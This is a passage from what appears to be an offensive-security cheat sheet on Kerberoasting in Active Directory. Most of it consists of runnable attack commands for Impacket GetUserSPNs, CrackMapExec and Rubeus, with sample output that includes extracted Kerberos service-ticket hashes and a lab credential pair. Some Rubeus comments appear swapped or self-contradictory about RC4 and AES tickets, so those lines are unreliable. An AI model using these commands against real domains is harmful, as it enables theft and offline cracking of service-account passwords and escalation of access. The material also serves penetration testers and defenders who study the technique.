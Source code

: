 ### Kerberoasting

> "A service principal name (SPN) is a unique identifier of a service instance. SPNs are used by Kerberos authentication to associate a service instance with a service logon account. " - [MSDN](https://docs.microsoft.com/fr-fr/windows/desktop/AD/service-principal-names)

Any valid domain user can request a kerberos ticket (TGS) for any domain service. Once the ticket is received, password cracking can be done offline on the ticket to attempt to break the password for whatever user the service is running as.


* [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket Suite
  ```powershell
  $ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

  Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

  ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet      LastLogon           
  --------------------  -------------  --------------------------------------------------------  -------------------  -------------------
  active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40  2018-12-03 17:11:11 

  $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$424338c0a3c3af43[...]84fd2
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

